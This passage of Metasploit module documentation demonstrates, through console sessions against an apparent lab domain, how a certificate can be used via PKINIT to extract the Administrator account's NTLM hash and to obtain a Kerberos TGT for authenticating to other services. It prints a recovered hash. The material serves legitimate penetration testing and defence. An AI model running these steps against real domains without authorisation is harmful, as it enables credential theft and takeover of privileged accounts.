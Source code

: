 ### Getting An NT Hash
Certificates can be used to obtain the NTLM hash of an account with the PKINIT extension. To request the hash, set the
action to `GET_HASH`.

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_hash rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230505083913_default_172.30.239.85_windows.ad.cs_275324.pfx
[*] Running module against 172.30.239.85

[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_324339.bin
[*] 172.30.239.85:88 - Getting NTLM hash for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGS-Response
[*] 172.30.239.85:88 - TGS MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230505094204_default_172.30.239.85_mit.kerberos.cca_031414.bin
[+] Found NTLM hash for Administrator: aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) >
```

### Getting A Kerberos Ticket
Certificates can be used to issue a Kerberos ticket granting ticket (TGT) which in turn can be used to authenticate to
services such as HTTP, LDAP and SMB. Ticket granting tickets can be requested using the `GET_TGT` action.

```msf
msf6 auxiliary(admin/kerberos/get_ticket) > get_tgt rhosts=172.30.239.85 cert_file=/home/smcintyre/.msf4/loot/20230124173224_default_172.30.239.85_windows.ad.cs_287833.pfx
[*] Running module against 172.30.239.85

[*] 172.30.239.85:88 - Getting TGT for Administrator@daforest.com
[+] 172.30.239.85:88 - Received a valid TGT-Response
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/get_ticket) > klist
Kerberos Cache
==============
host           principal                   sname                             issued                     status  path
----           ---------                   -----                             ------                     ------  ----
172.30.239.85  Administrator@daforest.com  krbtgt/MSFLAB.LOCAL@MSFLAB.LOCAL  2023-01-24 20:23:54 -0500  valid   /home/smcintyre/.msf4/loot/20230124202354_default_172.30.239.85_mit.kerberos.cca_566767.bin

msf6 auxiliary(admin/kerberos/get_ticket) >
```
